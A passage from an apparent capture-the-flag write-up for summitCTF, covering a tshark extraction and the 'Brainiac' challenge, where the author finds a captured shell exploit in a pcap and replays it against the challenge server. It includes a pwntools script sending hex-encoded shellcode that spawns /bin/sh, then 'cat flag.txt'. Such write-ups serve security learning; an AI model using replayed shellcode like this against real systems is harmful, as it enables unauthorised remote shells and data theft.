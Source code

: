 ```tshark -r chall.jpg.pcap -Y icmp -T fields -e data.data```
![image](https://user-images.githubusercontent.com/101006959/235035856-263d03c8-5d88-45a8-a4c3-50f97932b677.png)

`Flag: summitCTF{look_at_da_kitty}`

* * *

## [](#Brainiac)Brainiac

![image](https://user-images.githubusercontent.com/101006959/235035879-71fd2d73-b33f-4f97-9758-c947070e7b40.png)

For this challenge, we were given a packet capture file that we can view within Wireshark.

#### [](#Files4)File(s):
- exploit.pcap

Opening the pcap file we can see there there are multiple different types of packet protocols, the majority of them being TCP packets.

![image](https://user-images.githubusercontent.com/101006959/235035897-13657c30-f550-4342-b78f-bc1d89bb476b.png)

Viewing the TCP streams, on the very first stream (Stream 0) we can see some peculiar data that looks like someone connecting to a server and successfully getting a shell:

![image](https://user-images.githubusercontent.com/101006959/235035913-27ff9fdf-e34e-4324-bc20-b9bf722d69c3.png)

I searched through the rest of the streams and also attempted to search the file for the string `shctf{` to see if the flag was in there, but had no luck.

After some thinking I decided to check if we were also able to access the server shown in the TCP stream, using the ip `165.227.210.30` and port `16306` we were successfully able connect to the server and recieved the following screen!

![image](https://user-images.githubusercontent.com/101006959/235035977-e84e59ef-2e07-495d-af1a-cbad161d8543.png)

I originally copy pasted the exact data seen in the TCP stream as seen above, however after the 3rd line of input, the server just closed the connection and I was unable to recieve any type of shell.

This confused me a little until I eventually looked at the data closer in wireshark. Some of the bytes that were being sent to the server were unable to be properly represented in ASCII and therefor were just being represented by `.` which is why I was unable to get a shell

![image](https://user-images.githubusercontent.com/101006959/235035959-1ff4abc3-2123-4707-9508-3259ef011e81.png)

My next idea was to take these expected hex data, and write a python script using pwntools to send the exact hex bytes expected to the server. Below is the script that I wrote:

```py
from pwn import *
r = remote('165.227.210.30', 16306)
r.recvuntil(b'>>>')
r.sendline(bytes.fromhex('41594831f65648bf2f62696e2f73680057545f48c7c180104000ffd10a')) #AYH1.VH./bin/sh.WT_H....@...
r.recvuntil(b'>>>')
r.sendline(bytes.fromhex('000011ca000000000a')) #........
r.recvuntil(b'>>>')
r.sendline(bytes.fromhex('41414141414141410a')) #AAAAAAAA
r.sendline(bytes.fromhex('63617420666C61672E747874')) #cat flag.txt
```